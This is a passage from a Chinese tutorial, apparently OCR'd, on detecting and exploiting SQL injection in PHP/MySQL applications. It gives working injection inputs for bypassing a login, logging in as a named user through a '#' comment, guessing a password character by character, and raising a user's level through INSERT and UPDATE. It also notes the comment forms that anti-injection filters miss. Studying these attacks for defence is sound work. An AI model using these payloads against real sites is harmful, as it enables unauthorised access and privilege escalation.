 	(3)网址：http:www.phpben.com/benwin.php?id=1 and 1=2则sql语句可能是 select  *  from phpben where id = 1 and 1=2 如果运行结果异常说明sql语句中“and 1=2”起作用，所以能3个条件都满足都则很确定的benwin.php存在注入漏洞。

ps：这里用get方法验证，post也可以，只要把值按上面的输入，可以一一验证。
这说明

###### 3.2常见的mysql注入语句。

* (1)不用用户名和密码

```
	//正常语句
	$sql ="select * from phpben where user_name='admin' and pwd ='123'";
	//在用户名框输入’or’=’or’或 ’or 1=’1 然后sql如下
	$sql ="select * from phpben where user_name=' 'or'='or'' and pwd ='' ";
	$sql ="select * from phpben where user_name=' 'or 1='1' and pwd ='' ";
```

这样不用输入密码。话说笔者见到登录框都有尝试的冲动。

* (2)在不输入密码的情况下，利用某用户。

```
	//正常语句
	$sql ="select * from phpben where user_name='$username' and pwd ='$pwd'";
	//利用的用户名是benwin 则用户名框输入benwin’#  密码有无都可,则$sql变成
	$sql ="select * from phpben where user_name=' benwin'#' and pwd ='$pwd'";
```

这是因为mysql中其中的一个注悉是“#”，上面语句中#已经把后面的内容给注悉掉，所以密码可以不输入或任意输入。网上有些人介绍说用“/*”来注悉，笔者想提的是只有开始注悉没结束注悉“*/”时，mysql会报错，也不是说“/**/”不能注悉，而是这里很难添加上“*/”来结束注悉，还有“-”也是可以注悉mysql 但要注意“--”后至少有一个空格也就是“-	”，当然防注入代码要把三种都考虑进来，值得一提的是很多防注入代码中没把“-	”考虑进防注入范围。

* (3)猜解某用户密码

```
	//正常语句
	$sql ="select * from phpben.com where user_name='$username' and pwd ='$pwd'";
	//在密码输入框中输入“benwin’ and left(pwd,1)='p'#”，则$sql是
	$sql ="select * from phpben.com where user_name=' benwin' and left(pwd,1)='p'#' and pwd ='$pwd'";
```

如果运行正常则密码的密码第一个字符是p，同理猜解剩下字符。

* (4)插入数据时提权

```
	//正常语句，等级为1
	$sql = "insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin','iampwd',1) ";
	//通过修改密码字符串把语句变成
	$sql = "insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin','iampwd',5)#',1) ";
	$sql = "insert into phpben.com (`user_name`,`pwd`,`level`) values(‘benwin','iampwd',5)-	 ',1) ";这样就把一个权限为1的用户提权到等级5
```

* (5)更新提权和插入提权同理

```
	//正常语句
	$sql = "update phpben set  `user_name` ='benwin', level=1";
	//通过输入用户名值最终得到的$sql
	$sql = "update phpben set  `user_name` ='benwin',level=5#', level=1";
	$sql = "update phpben set  `user_name` ='benwin',level=5-	 ', level=1";
```
